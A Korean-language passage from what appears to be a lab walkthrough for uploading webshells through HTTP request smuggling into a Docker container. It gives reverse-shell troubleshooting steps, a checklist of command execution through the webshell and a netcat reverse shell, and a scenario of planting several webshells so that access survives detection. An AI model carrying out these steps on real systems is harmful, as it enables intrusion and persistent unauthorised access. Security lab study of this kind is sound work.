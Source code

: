 ### 문제 6: "리버스쉘 연결 안 됨"

```bash
# 확인 1: 방화벽
# Windows Defender 방화벽에서 4444 포트 허용

# 확인 2: IP 주소
ip addr show eth0

# 확인 3: 네트워크 경로
docker exec 1xinv_web_v2 ping -c 3 172.19.0.1

# 확인 4: nc 리스너가 실행 중인지
netstat -an | grep 4444
```

---

## 📊 성공 체크리스트

### 업로드 단계
- [ ] Docker 컨테이너 실행 확인
- [ ] Python 스크립트 실행
- [ ] "✅ Webshell uploaded successfully!" 메시지 확인
- [ ] Nginx 로그: 2개 요청
- [ ] Apache 로그: 3개 요청 (Smuggling 증거!)

### 검증 단계
- [ ] `curl ...?cmd=id` 성공
- [ ] `curl ...?cmd=whoami` → www-data
- [ ] `curl ...?cmd=ls+-la` → 파일 목록
- [ ] DB 접근 테스트 성공

### 리버스쉘 단계
- [ ] nc 리스너 실행
- [ ] WSL IP 확인
- [ ] 리버스쉘 트리거 실행
- [ ] 연결 성공 (www-data 권한)
- [ ] 쉘 안정화 (Python PTY)

---

## 🎓 추가 공격 시나리오

### 시나리오 1: 여러 개의 웹쉘 업로드

```bash
# 백도어 다중화
python3 smuggle_webshell.py shell1.php
python3 smuggle_webshell.py shell2.php
python3 smuggle_webshell.py cmd.php

# 하나가 탐지되어도 다른 웹쉘로 접근 가능
```
